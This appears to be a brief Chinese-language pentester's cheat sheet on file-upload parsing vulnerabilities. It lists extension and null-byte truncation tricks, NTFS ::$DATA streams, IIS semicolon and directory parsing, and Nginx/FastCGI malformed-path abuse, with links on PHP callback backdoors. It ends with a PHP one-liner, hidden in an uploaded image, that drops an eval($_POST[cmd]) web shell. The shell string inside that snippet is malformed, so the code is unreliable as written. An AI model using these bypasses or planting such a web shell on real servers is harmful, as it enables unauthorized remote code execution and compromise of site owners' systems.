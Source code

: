TODO:  

## 文件解析
https://blog.csdn.net/wn314/article/details/77074477
https://www.cnblogs.com/shellr00t/p/6426856.html


截断，分号 php=>ptml,php2 php3 php4...  
flag.php:1  
flag.php::$DATA  
## 回调后门
https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html

### getshell
目录解析 1.asp/1.png
分号阶段 1.asp;.png
改包 00截断

IIS7.0 .5 Nginx<8.03畸形解析漏洞
默认FAST-CGI开启状态上传一个1.jpg内容
```php
<?php fputs(fopen('shell.php','w'),'?<php eval($_POST[cmd]?>');?>
```
访问1.jpg/.php。在这个目录下就会生成一句话木马shell.php